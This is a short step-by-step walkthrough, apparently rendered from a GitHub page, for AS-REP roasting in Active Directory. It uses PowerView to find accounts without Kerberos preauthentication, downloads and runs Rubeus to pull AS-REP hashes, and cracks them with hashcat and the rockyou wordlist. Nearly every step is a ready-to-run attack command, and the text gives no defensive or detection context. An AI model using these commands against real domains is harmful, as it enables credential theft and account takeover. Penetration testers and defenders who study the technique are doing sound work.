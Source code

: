 ```yaml
---
legal-banner: true
---
```


### **USING POWERVIEW TO ENUMERATE ACCOUNTS**

1.  Import PowerView module  
    `Import-Module .\PowerView.ps1`
2.  Find users with "Do not require Kerberos preauthentication" flag  
    `Get-DomainUser -PreAuthNotRequired`
3.  Requesting AS-REP for Targeted Users  
    Once you have identified vulnerable accounts request the AS-REP.
4.  Download Rubeus from the GitHub releases page:  
    `Invoke-WebRequest -Uri "https://github.com/GhostPack/Rubeus/releases/download/v1.5.0/Rubeus.zip" -OutFile "Rubeus.zip"`
5.  Unzip the downloaded file to a directory of your choice:  
    `Expand-Archive -Path "Rubeus.zip" -DestinationPath ".\Rubeus"`
6.  Request AS-REP:  
    `.\Rubeus.exe asreproast`
7.  Save the AS-REP hashes to a file named  
    `asrep_hashes.txt`.
8.  Use Hashcat to crack the hashes with a wordlist such as rockyou.txt:  
    `hashcat -m 18200 -a 0 asrep_hashes.txt /usr/share/wordlists/rockyou.txt`